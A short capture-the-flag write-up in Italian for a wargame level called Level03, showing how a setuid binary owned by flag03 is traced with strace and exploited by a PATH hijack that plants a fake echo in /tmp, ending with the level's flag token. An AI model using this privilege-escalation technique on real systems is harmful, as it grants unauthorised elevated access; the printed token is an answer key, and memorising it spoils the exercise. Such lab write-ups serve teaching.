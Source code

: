# Level03
### 1 passaggio:
Digitando `ls -l level03` abbiamo:
```bash
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
dunque flag03 è proprietario del file

### 2 passaggio:
Con il comando `strace -f ./level03` scopriamo che l'eseguibile esegue il comando
`execve("/usr/bin/env", ["/usr/bin/env", "echo", "Exploit", "me"], [/* 18 vars */])`
quindi basta sostituire l'eseguibile echo e aggiungere alla `PATH` di sistema quello nuovo

### 3 passaggio:
```bash
which getflag
echo '/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
```
Così da avere finalmente la flag:
` Check flag.Here is your token : qi0maab88jeaj46qoumi7maus `
